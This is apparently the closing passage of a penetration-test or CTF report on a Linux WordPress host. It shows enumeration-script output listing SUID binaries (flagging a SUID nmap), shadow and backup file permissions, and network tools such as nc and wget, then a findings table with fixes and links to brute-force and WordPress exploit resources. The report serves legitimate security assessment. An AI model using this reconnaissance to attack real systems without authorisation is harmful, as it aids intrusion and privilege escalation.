    -rw-r--r--  1 root root  337 Apr 14  2014 udev.conf
    -rw-r--r--  1 root root  356 Apr 14  2014 udevmonitor.conf
    -rw-r--r--  1 root root  352 Apr 14  2014 udevtrigger.conf
    -rw-r--r--  1 root root  473 Feb 28  2014 ufw.conf
    -rw-r--r--  1 root root  412 Apr 11  2014 upstart-file-bridge.conf
    -rw-r--r--  1 root root  329 Apr 11  2014 upstart-socket-bridge.conf
    -rw-r--r--  1 root root  553 Apr 11  2014 upstart-udev-bridge.conf
    -rw-r--r--  1 root root  683 Mar 25  2013 ureadahead-other.conf
    -rw-r--r--  1 root root  889 Mar 25  2013 ureadahead.conf
    -rw-r--r--  1 root root  351 Nov 13  2015 vmware-tools-thinprint.conf
    -r--r--r--  1 root root  901 Nov 13  2015 vmware-tools.conf
    -rw-r--r--  1 root root  737 May 16  2013 vsftpd.conf
    -rw-r--r--  1 root root 1521 Apr 11  2014 wait-for-state.conf
    
    
    [-] /lib/systemd/* config file permissions:
    /lib/systemd/:
    total 240K
    drwxr-xr-x 4 root root 4.0K Jun 24  2015 system
    -rwxr-xr-x 1 root root 235K Apr 15  2015 systemd-udevd
    
    /lib/systemd/system:
    total 52K
    drwxr-xr-x 2 root root 4.0K Jun 24  2015 sockets.target.wants
    drwxr-xr-x 2 root root 4.0K Jun 24  2015 sysinit.target.wants
    -rw-r--r-- 1 root root  199 May  6  2015 rsyslog.service
    lrwxrwxrwx 1 root root   21 Apr 15  2015 udev.service -> systemd-udevd.service
    -rw-r--r-- 1 root root  823 Apr 15  2015 systemd-udev-settle.service
    -rw-r--r-- 1 root root  715 Apr 15  2015 systemd-udev-trigger.service
    -rw-r--r-- 1 root root  788 Apr 15  2015 systemd-udevd.service
    -rw-r--r-- 1 root root  578 Apr 15  2015 systemd-udevd-control.socket
    -rw-r--r-- 1 root root  575 Apr 15  2015 systemd-udevd-kernel.socket
    -rw-r--r-- 1 root root  344 May  2  2014 ssh.service
    -rw-r--r-- 1 root root  216 May  2  2014 ssh.socket
    -rw-r--r-- 1 root root  196 May  2  2014 ssh@.service
    -rw-r--r-- 1 root root  188 Apr 17  2014 rsync.service
    -rw-r--r-- 1 root root  272 Feb  5  2014 sudo.service
    
    /lib/systemd/system/sockets.target.wants:
    total 0
    lrwxrwxrwx 1 root root 31 Apr 15  2015 systemd-udevd-control.socket -> ../systemd-udevd-control.socket
    lrwxrwxrwx 1 root root 30 Apr 15  2015 systemd-udevd-kernel.socket -> ../systemd-udevd-kernel.socket
    
    /lib/systemd/system/sysinit.target.wants:
    total 0
    lrwxrwxrwx 1 root root 31 Apr 15  2015 systemd-udev-trigger.service -> ../systemd-udev-trigger.service
    lrwxrwxrwx 1 root root 24 Apr 15  2015 systemd-udevd.service -> ../systemd-udevd.service
    
    
    ### SOFTWARE #############################################
    [-] Sudo version:
    Sudo version 1.8.9p5
    
    
    [-] MYSQL version:
    /opt/bitnami/mysql/bin/mysql.bin  Ver 14.14 Distrib 5.6.26, for linux-glibc2.5 (x86_64) using  EditLine wrapper
    
    
    [-] Apache version:
    Server version: Apache/2.4.16 (Unix)
    Server built:   Sep  7 2015 11:15:20
    
    
    ### INTERESTING FILES ####################################
    [-] Useful file locations:
    /bin/nc
    /bin/netcat
    /usr/bin/wget
    /usr/bin/gcc
    /opt/bitnami/common/bin/curl
    
    
    [-] Installed compilers:
    ii  g++                             4:4.8.2-1ubuntu6                 amd64        GNU C++ compiler
    ii  g++-4.8                         4.8.4-2ubuntu1~14.04             amd64        GNU C++ compiler
    ii  gcc                             4:4.8.2-1ubuntu6                 amd64        GNU C compiler
    ii  gcc-4.8                         4.8.4-2ubuntu1~14.04             amd64        GNU C compiler

    [-] Can we read/write sensitive files:
    -rw-r--r-- 1 root root 1217 Nov 13  2015 /etc/passwd
    -rw-r--r-- 1 root root 604 Nov 13  2015 /etc/group
    -rw-r--r-- 1 root root 665 Feb 20  2014 /etc/profile
    -rw-r----- 1 root shadow 982 Nov 14  2015 /etc/shadow
    
    
    [-] SUID files:
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
    -rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
    -rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
    -rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
    -rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
    -rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
    -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
    -rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
    -r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
    -r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
    -rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
    
    
    [+] Possibly interesting SUID files:
    -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
    
    
    [-] SGID files:
    -rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
    -rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
    -rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
    -rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
    -rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
    -rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
    -rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
    -rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
    -rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
    -rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
    -rwxr-sr-x 1 root shadow 35536 Jan 31  2014 /sbin/unix_chkpwd
    
    
    [-] Can't search *.conf files as no keyword was entered
    
    [-] Can't search *.php files as no keyword was entered
    
    [-] Can't search *.log files as no keyword was entered
    
    [-] Can't search *.ini files as no keyword was entered
    
    [-] All *.conf files in /etc (recursive 1 level):
    -rw-r--r-- 1 root root 604 Nov  7  2013 /etc/deluser.conf
    -rw-r--r-- 1 root root 703 Jan 22  2014 /etc/logrotate.conf
    -rw-r--r-- 1 root root 771 May 18  2013 /etc/insserv.conf
    -rw-r--r-- 1 root root 34 Jun 24  2015 /etc/ld.so.conf
    -rw-r--r-- 1 root root 2109 Sep 16  2015 /etc/sysctl.conf
    -rw-r--r-- 1 root root 2969 Feb 23  2014 /etc/debconf.conf
    -rw-r--r-- 1 root root 7773 Jun 24  2015 /etc/ca-certificates.conf
    -rw-r--r-- 1 root root 191 Dec  4  2013 /etc/libaudit.conf
    -rw-r--r-- 1 root root 956 Feb 19  2014 /etc/mke2fs.conf
    -rw-r--r-- 1 root root 321 Apr 16  2014 /etc/blkid.conf
    -rw-r--r-- 1 root root 475 Feb 20  2014 /etc/nsswitch.conf
    -rw-r--r-- 1 root root 1320 Aug 19  2014 /etc/rsyslog.conf
    -rw-r--r-- 1 root root 2981 Jun 24  2015 /etc/adduser.conf
    -rw-r--r-- 1 root root 2584 Oct 10  2012 /etc/gai.conf
    -rw-r--r-- 1 root root 92 Feb 20  2014 /etc/host.conf
    -rw-r--r-- 1 root root 1260 Jul  1  2013 /etc/ucf.conf
    -rw-r--r-- 1 root root 111 Jun 24  2015 /etc/kernel-img.conf
    -rw-r--r-- 1 root root 5790 Sep 16  2015 /etc/vsftpd.conf
    -rw-r--r-- 1 root root 552 Jan 31  2014 /etc/pam.conf
    
    
    [-] Location and Permissions (if accessible) of .bak file(s):
    -rw------- 1 root root 1217 Nov 13  2015 /var/backups/passwd.bak
    -rw------- 1 root root 604 Nov 13  2015 /var/backups/group.bak
    -rw------- 1 root shadow 885 Nov 13  2015 /var/backups/shadow.bak
    -rw------- 1 root shadow 496 Nov 13  2015 /var/backups/gshadow.bak
    
    
    [-] Any interesting mail in /var/mail:
    total 8
    drwxrwsr-x  2 root mail 4096 Jun 24  2015 .
    drwxr-xr-x 11 root root 4096 Jun 24  2015 ..

### SCAN COMPLETE ####################################

### Action on Objectives

## Exploits/Vulnerabilities & Recommendations
| Severity | Exploit/Vulnerability | Description                                                                                                          | Recommendation                                         |
|----------|-----------------------|----------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------|
| Critical | Outdated software     | WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).                                               | Update WordPress to the most recent version            |
| Critical | Brute forcing         | Usage of brute forcing is possible on /wp-login.php                                                                  | Block user/ip after a certain amount of login attempts |
| High     | Source available      | The source of the site can be downloaded on /admin/robot This file could give more information to the attackers | Remove the zipped file                                 |

## References
  - https://portswigger.net/burp/documentation/desktop/functions/burps-browser#:~:text=To%20launch%20Burp's%20browser%2C%20go,is%20automatically%20proxied%20through%20Burp.
  - http://insidetrust.blogspot.com/2011/08/using-hydra-to-dictionary-attack-web.html
  - https://www.systranbox.com/how-to-install-brute-force-in-kali-linux/
  - https://blog.techorganic.com/2014/07/15/hell-hacking-challenge/
  - https://wpscan.com/wordpress/431
  - http://codex.wordpress.org/XML-RPC_Pingback_API
  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
  - https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit
  - https://linuxconfig.org/use-wpscan-to-scan-wordpress-for-vulnerabilities-on-kali

# Maintaining Access
On each host that was compromised, …
# House Cleaning
Once we had completely compromised a host, …
# Appendices

